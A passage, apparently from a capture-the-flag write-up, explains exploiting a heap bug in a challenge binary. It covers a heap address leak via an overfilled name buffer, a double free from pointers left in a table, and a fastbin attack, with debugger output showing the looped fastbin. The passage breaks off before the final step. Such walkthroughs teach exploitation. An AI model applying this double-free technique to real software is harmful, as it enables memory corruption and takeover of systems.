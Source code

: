 - This means we can only create 20 chunks and pointer entries before we run out of space


#### Leak heap address
If we "reintroduce ourselves", and make our name with printable characters through the full buffer, eg:"A"*0x100, we are able to leak the first pointer on the Global Pointer Table.

#### Now what?
After chosing the 'Eat sice cream' and providing an index, the pointer is freed, but the entry stays in the table. This allow for a double free.  

#### Fast bin attack
So allocate three chunks. 
```
Chunk0 - 80 bytes  
Chunk1 - 80 bytes  
Chunk2 - 80 bytes  <- this chunk will keep the other two from coalescing with the top chunk when freed
```


* Free `Chunk0`, this will be added to fastbin 4 list
* Free `Chunk1`, `Chunk0` will be updated to point to `Chunk1` is thereby added to the fastbin
* Free `Chunk0` again, `Chunk1` will be updated to point to `Chunk0` so the fastbin looks like this:


```C
[+] No Tcache in this version of libc
───────────────────────────────────── Fastbins for arena 0x7fb2b0760b20 ─────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50]  ←  Chunk(addr=0x----010, size=0x60, flags=PREV_INUSE)  ←  Chunk(addr=0x----070, size=0x60, flags=PREV_INUSE)  ←  Chunk(addr=0x----010, size=0x60, flags=PREV_INUSE)  →  [loop detected]
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
───────────────────────────────── Unsorted Bin for arena '*0x7fb2b0760b20' ─────────────────────────────────
[+] Found 0 chunks in unsorted bin.
────────────────────────────────── Small Bins for arena '*0x7fb2b0760b20' ──────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────── Large Bins for arena '*0x7fb2b0760b20' ──────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

Now Alloc something from that fasbin. Since it's on the list twice, we can update the pointer to point to where ever we want. But we need to make sure that the chunk size is correct before we do actually allocate that last chunk.

